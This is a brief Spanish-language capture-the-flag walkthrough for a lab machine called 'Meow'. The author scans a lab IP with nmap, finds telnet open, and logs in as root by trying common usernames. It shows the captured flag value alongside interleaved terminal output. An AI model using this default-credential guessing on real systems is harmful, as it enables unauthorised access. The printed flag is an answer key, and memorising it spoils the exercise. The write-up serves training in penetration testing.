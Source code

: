# Meow

realize un ping a la coneccion para vereficar que la ip dada existia

```ping 10.129.119.162```

Luego realice nmap para verificar los puestos activos y los servicios que corrian por los mismos

```nmap -Pn 10.129.119.162
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-03 18:46 -03                                   │root@Meow:~# ls
Nmap scan report for 10.129.119.162 (10.129.119.162)                                              │flag.txt  snap
Host is up (0.35s latency).                                                                       │root@Meow:~# cat flag.txt 
Not shown: 999 closed tcp ports (reset)                                                           │b40abdfe23665f766f9c61ecba8a4c19
PORT   STATE SERVICE                                                                              │root@Meow:~# cd snap/
23/tcp open  telnet                                                                               │root@Meow:~/snap# ls
                                                                                                  │lxd
Nmap done: 1 IP address (1 host up) scanned in 2.97 seconds
```
detectando el servicio, me conecte con el servicio telnet
```telnet 10.129.119.162```

realice el login con los tipicos usuarios 

* admin
* administrator
* root

finalmente root dio resultados, y pude acceder al sistema y obtener la bandera

